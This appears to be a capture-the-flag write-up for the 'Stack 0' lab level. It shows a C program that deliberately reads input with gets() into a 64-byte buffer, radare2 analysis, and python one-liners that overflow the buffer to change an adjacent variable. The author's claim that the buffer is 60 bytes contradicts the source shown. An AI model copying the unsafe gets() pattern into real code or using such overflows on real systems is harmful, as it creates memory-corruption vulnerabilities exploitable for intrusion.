 # Stack 0

## About

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.


### Source code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```

## Solution 

open the binary in radare2 and `seek` to the `main` function

``` bash
[root:~]# r2 -A ./00
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
[0x000005c0]> s main
[0x000006f0]>
```
looking at this in the pretty visual mode you see the following 

![](visual.png)

there looks to be a check at `call sym.imp.gets ;[a]; char*gets(char *s);` that calls the `char`, and from the source we know the buffer is set to `60`

to modify the variable i assume an overflow of the definde buffer needs to happen

``` bash
[root:~]# python -c 'print "A"*60' | ./00
Try again?
```

so as expected with the buffer size of 60

``` bash
[root:~]# python -c 'print "A"*65' | ./00
Try again?
[root:~]# python -c 'print "A"*70' | ./00
Try again?
[root:~]# python -c 'print "A"*80' | ./00
you have changed the 'modified' variable
```

trying it a few times and `80` is our sucessful attempt
